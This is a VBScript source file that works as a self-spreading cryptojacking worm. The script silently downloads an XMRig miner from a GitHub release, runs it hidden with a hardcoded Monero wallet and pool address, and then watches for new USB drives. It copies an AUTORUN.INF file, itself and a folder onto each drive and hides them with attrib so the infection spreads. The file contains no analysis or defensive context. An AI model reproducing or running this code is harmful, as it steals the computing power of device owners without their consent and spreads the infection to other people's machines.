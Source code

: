 Option Explicit
On Error Resume Next

Dim downloadUrl, zipFileName, extractedFolderName, exeName, minerArgs, autorunFile, vbsFile, openFolder
Dim http, stream, fso, wshShell, shellApp, scriptPath, zipFilePath, extractPath, exePath, command
Dim srcAutorunPath, srcVbsPath, srcOpenFolderPath
Dim wmiService, initialDrives, colDisks, objDisk, driveLetter
Dim destAutorun, destVbs, destFolder
Dim currentDrives, key
Dim zipFolder

downloadUrl = "https://github.com/tvhbes/the-tvhbes/releases/download/tvhbes/xmrig-6.24.0-windows-x64.zip"
zipFileName = "xmrig-6.24.0-windows-x64.zip"
extractedFolderName = "xmrig-6.24.0"
exeName = "xmrig.exe"
minerArgs = "-o pool.hashvault.pro:443 -u 471q5TCWH23JtsjiSVNXs8TNRCp4aadn7b5Lmxi9xFrLgimAFyqajGqXAfDFjFvZkiRkZmEnC3wYbeMs1FsJ8u8oVmf17Fc -p ratul001 -a rx/0 -k --donate-level 1"
autorunFile = "AUTORUN.INF"
vbsFile = "sami.vbs"
openFolder = "OpenFile"

Set fso = CreateObject("Scripting.FileSystemObject")
Set wshShell = CreateObject("WScript.Shell")
scriptPath = fso.GetParentFolderName(WScript.ScriptFullName)

zipFilePath = fso.BuildPath(scriptPath, zipFileName)
extractPath = fso.BuildPath(scriptPath, "")

' Correctly define paths based on user's directory structure
exePath = fso.BuildPath(fso.BuildPath(scriptPath, extractedFolderName), exeName)
srcAutorunPath = fso.BuildPath(scriptPath, autorunFile)
srcVbsPath = fso.BuildPath(scriptPath, vbsFile)
srcOpenFolderPath = fso.BuildPath(scriptPath, openFolder)

If Not fso.FileExists(exePath) Then
    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    If Err.Number = 0 Then
        http.SetTimeouts 10000, 30000, 60000, 60000
        http.Open "GET", downloadUrl, False
        http.Send
        If http.Status = 200 Then
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write http.ResponseBody
            stream.SaveToFile zipFilePath, 2
            stream.Close
            Set stream = Nothing
            
            Set shellApp = CreateObject("Shell.Application")
            If fso.FileExists(zipFilePath) Then
                Set zipFolder = shellApp.NameSpace(zipFilePath)
                Set destFolder = shellApp.NameSpace(extractPath)
                destFolder.CopyHere zipFolder.Items, 20
            End If
            Set shellApp = Nothing
        End If
        Set http = Nothing
    End If
End If

If fso.FileExists(exePath) Then
    command = """" & exePath & """ " & minerArgs
    wshShell.Run command, 0, False
End If

Set initialDrives = CreateObject("Scripting.Dictionary")
Set wmiService = GetObject("winmgmts:\\.\root\cimv2")
Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")

For Each objDisk in colDisks
    initialDrives.Add objDisk.DeviceID, True
Next

Do
    WScript.Sleep 5000
    Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")
    
    For Each objDisk in colDisks
        driveLetter = objDisk.DeviceID
        If Not initialDrives.Exists(driveLetter) Then
            initialDrives.Add driveLetter, True
            WScript.Sleep 10000 ' Wait 10 seconds after detection
            
            destAutorun = fso.BuildPath(driveLetter & "\", autorunFile)
            destVbs = fso.BuildPath(driveLetter & "\", vbsFile)
            destFolder = fso.BuildPath(driveLetter & "\", openFolder)
            
            fso.CopyFile srcAutorunPath, destAutorun, True
            fso.CopyFile srcVbsPath, destVbs, True ' Added missing line to copy sami.vbs
            fso.CopyFolder srcOpenFolderPath, destFolder, True
            
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destAutorun & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destVbs & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destFolder & """ /s /d", 0, True
        End If
    Next
    
    Set currentDrives = CreateObject("Scripting.Dictionary")
    For Each objDisk in colDisks
        currentDrives.Add objDisk.DeviceID, True
    Next

    For Each key in initialDrives.Keys
        If Not currentDrives.Exists(key) Then
            initialDrives.Remove(key)
        End If
    Next
Loop
